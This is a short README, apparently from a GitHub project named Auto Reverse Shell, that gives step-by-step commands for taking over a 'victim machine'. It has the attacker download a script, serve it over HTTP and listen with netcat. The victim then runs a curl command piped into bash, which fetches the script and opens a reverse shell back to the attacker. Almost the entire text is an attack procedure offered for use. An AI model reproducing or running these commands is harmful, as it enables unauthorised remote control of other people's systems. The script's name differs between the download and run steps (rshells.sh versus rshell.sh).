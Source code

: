 # Auto Reverse Shell 🐙

## Use 💻
1. Download rshells.sh on the attacker's machine: 
    `wget https://raw.githubusercontent.com/dherrera98/AutoReverseShell/main/rshells.sh`
2. Serve it with a web server, for example:
    `python3 -m http.server 80`
3. Run netcat in another terminal to listen on some port, for example port 443: 
    `nc -nlvp 443`
4. On the victim machine run: 
    `curl http://<IpWebServer>:<PortWebServer>/rshell.sh | bash -s <AttackerIP> <NetcatPort>`
5. Look at the netcat terminal and you will see the shell of the victim.